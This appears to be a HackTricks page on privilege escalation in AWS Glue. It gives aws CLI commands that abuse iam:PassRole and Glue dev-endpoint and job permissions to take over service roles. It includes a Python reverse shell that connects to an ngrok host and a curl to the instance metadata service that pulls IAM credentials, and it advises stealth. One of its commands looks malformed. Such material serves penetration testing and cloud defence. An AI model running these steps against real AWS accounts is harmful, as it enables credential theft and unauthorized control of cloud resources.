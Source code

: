 # AWS - Glue Privesc

{{#include ../../../banners/hacktricks-training.md}}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with these permissions can **set up a new AWS Glue development endpoint**, **assigning an existing service role assumable by Glue** with specific permissions to this endpoint.

After the setup, the **attacker can SSH into the endpoint's instance**, and steal the IAM credentials of the assigned role:

```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
    --role-arn <arn-role> \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

For stealth purpose, it's recommended to use the IAM credentials from inside the Glue virtual machine.

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with this permission can **alter an existing Glue development** endpoint's SSH key, **enabling SSH access to it**. This allows the attacker to execute commands with the privileges of the endpoint's attached role:

```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

**Potential Impact:** Privesc to the glue service role used.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Users with **`iam:PassRole`** combined with either **`glue:CreateJob` or `glue:UpdateJob`**, and either **`glue:StartJobRun` or `glue:CreateTrigger`** can **create or update an AWS Glue job**, attaching any **Glue service account**, and initiate the job's execution. The job's capabilities include running arbitrary Python code, which can be exploited to establish a reverse shell. This reverse shell can then be utilized to exfiltrate the **IAM credential**s of the role attached to the Glue job, leading to potential unauthorized access or actions based on the permissions of that role:

```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateJob`

Just with the update permission an attacked could steal the IAM Credentials of the already attached role.

**Potential Impact:** Privesc to the glue service role attached.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}




